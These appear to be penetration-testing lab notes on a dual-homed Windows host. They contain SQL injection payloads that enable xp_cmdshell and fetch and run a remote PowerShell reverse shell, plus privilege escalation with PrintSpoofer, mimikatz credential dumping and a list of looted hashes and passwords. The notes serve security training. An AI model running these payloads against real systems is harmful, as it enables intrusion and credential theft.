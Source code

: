<mark>Dual-Homed</mark>
- Website running at port 80 has a login page subjected to SQL injection.![[Pasted image 20240212201416.png]]
- First run to enable Code Execution.
	- URL-encode
	```
	1'exec('sp_configure''show advanced option'',''1''reconfigure')exec('sp_configure''xp_cmdshell'',''1''reconfigure')waitfor delay '0:0:5' -- //
	```
- Then run to receive a reverse shell connection.
	- URL-encode
	```
	1'EXEC master.dbo.xp_cmdshell 'powershell.exe -nop -w hidden -c iex(iwr http://192.168.45.163/Windows/nishang/Shells/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.45.163 443'waitfor delay '0:0:5' -- //
	```
# PrivEsc
- Since the reverse shell is under the user `nt service\mssql$sqlexpress` which will have `SeImpersonatePrivilege` enable and can be confirmed by `whoami /priv`. Hence, `potato-family` or `printspoofer` can be used her for `PrivEsc`.![[Pasted image 20240212203338.png]]
	- `.\PrintSpoofer64.exe -i -c powershell.exe` to a a shell as `nt authority\system`.
# Local Enumeration
- `winPEAS` identify domain user `joe` with active session.![[Pasted image 20240213161747.png]]![[Pasted image 20240213161912.png]]
- `mimikatz` to extract `NTLM` hash and plaintext password.![[Pasted image 20240213162102.png]]
- Potential `mssql` password![[Pasted image 20240213162542.png]]
- `mimikatz` to dump Local Hashes.
# Loot
- medtech.com\joe
	- `NTLM`: 08d7a47a6f9f66b97b1bae4178747494
	- `Password`: Flowers1
- `Mssql Password` : WhileChirpTuesday218
- `offsec`: 2892d26cdf84d7a70e2eb3b9f05c425e
- `Administrator`: b2c03054c306ac8fc5f9d188710b0168